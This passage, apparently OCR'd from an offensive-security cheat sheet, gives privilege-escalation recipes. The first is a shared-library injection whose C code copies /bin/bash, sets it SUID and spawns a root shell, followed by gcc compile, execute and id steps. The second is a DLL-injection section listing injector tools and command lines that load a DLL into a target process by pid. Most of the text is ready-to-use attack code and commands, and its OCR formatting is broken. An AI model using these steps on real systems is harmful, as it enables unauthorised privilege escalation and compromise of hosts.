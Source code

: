 void inject() {

system(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash
-p\");

}

3\.

gcc -shared -o /home/user/.config/libcalc.so
-fPIC/home/user/.config/libcalc.c

4\.

/usr/local/bin/suid-so

5\.

id

<a name="dll-injection"></a>
# DLL Injection

Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1\.

RemoteDLLInjector64

Or

MemJect

Or

https://github.com/tomcarver16/BOF-DLL-Inject

2\.

\#define PROCESS_NAME \"csgo.exe\"

Or

RemoteDLLInjector64.exe pid C:\\runforpriv.dll

Or

mandllinjection ./runforpriv.dll pid

<a name="early-bird-injection"></a>
# Early Bird Injection
